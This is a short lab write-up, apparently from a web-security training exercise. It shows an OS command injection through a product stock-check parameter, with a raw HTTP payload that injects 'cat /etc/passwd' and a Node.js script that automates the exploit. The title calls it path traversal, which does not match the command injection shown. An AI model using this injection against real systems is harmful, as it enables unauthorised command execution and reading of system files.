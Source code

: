 # 1 - Path traversal, simple case

### Notes

The product stock check feature passed improperly sanitized data to an operating system command.

```http
POST /product/stock HTTP/1.1

productId=1%26cat+/etc/passwd%26%23&storeId=1
```

### Scripted Solution

```javascript
const axios = require('axios').default
require('dotenv').config({ path: './.env' })

/**
 * Run exploit.
 */
async function main() {
  const labUrl = process.env.LAB_URL

  const command = 'cat /etc/passwd'

  console.log(`Executing ${command}...`)
  const res = await axios.post(
    `${labUrl}/product/stock`,
    // Command something like: 'stockChecker.pl 123 &<command>&#456'
    `productId=123%26${command}%26%23&storeId=456`
  )
  console.log(res.data)
}

main()
  .then(() => process.exit(0))
  .catch((error) => {
    console.error(error)
    process.exit(1)
  })
```
